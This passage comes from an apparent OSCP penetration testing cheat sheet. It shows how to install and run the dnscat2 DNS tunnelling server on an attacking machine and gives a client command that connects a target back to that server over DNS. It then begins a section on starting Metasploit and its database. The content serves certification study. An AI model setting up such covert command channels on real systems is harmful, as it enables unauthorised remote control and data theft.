     -   Attacking Machine Installation:

        ```bash
        apt-get update
        apt-get -y install ruby-dev git make g++
        gem install bundler
        git clone https://github.com/iagox86/dnscat2.git
        cd dnscat2/server
        bundle install
        ```

    -   Run dnscat2:

        ```
        ruby ./dnscat2.rb
        dnscat2> New session established: 1422
        dnscat2> session -i 1422
        ```

    -   Target Machine:
        [*https://downloads.skullsecurity.org/dnscat2/*](https://downloads.skullsecurity.org/dnscat2/)

        [*https://github.com/lukebaggett/dnscat2-powershell/*](https://github.com/lukebaggett/dnscat2-powershell/)

        `dnscat --host <dnscat server ip>`

<span id="_ujpvtdpc9i67" class="anchor"><span id="_Toc480741824" class="anchor"></span></span>The Metasploit Framework
======================================================================================================================

-   See [*Metasploit Unleashed
    Course*](https://www.offensive-security.com/metasploit-unleashed/)
    in the Essentials

-   Search for exploits using Metasploit GitHub framework source code:
    [*https://github.com/rapid7/metasploit-framework*](https://github.com/rapid7/metasploit-framework)
    Translate them for use on OSCP LAB or EXAM.

-   Metasploit

    -   MetaSploit requires Postfresql

        `systemctl start postgresql`

    -   To enable Postgresql on startup

        `systemctl enable postgresql`

-   MSF Syntax

    -   Start metasploit

        `msfconsole  `

        `msfconsole -q`

    -   Show help for command
